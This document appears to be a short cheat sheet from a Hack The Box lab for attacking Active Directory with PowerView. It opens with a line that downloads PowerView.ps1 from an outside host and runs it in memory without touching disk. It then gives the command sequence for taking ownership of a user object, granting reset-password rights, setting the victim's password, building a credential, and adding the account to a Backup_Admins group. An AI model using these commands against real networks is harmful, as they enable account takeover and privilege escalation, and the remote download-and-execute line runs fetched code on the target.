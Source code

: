 # PowerView.ps1

## Fileless (Running PS1 without saving to disk)
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/PowerView.ps1')
```

## Take Ownership over User
- Prerequisite is to have PowerView loaded

```
Set-DomainObjectOwner -Identity Herman -OwnerIdentity Nico
```

## Reset Password
- Prerequisite is to have PowerView loaded

```
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity Nico -Rights ResetPassword -Verbose
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
Set-DomainUserPassword Herman -AccountPassword $pass -Verbose
```

## Build New Credential
```
$user = 'htb\herman'
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\Herman', $pass)
```

## Add user to group
```
Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred
```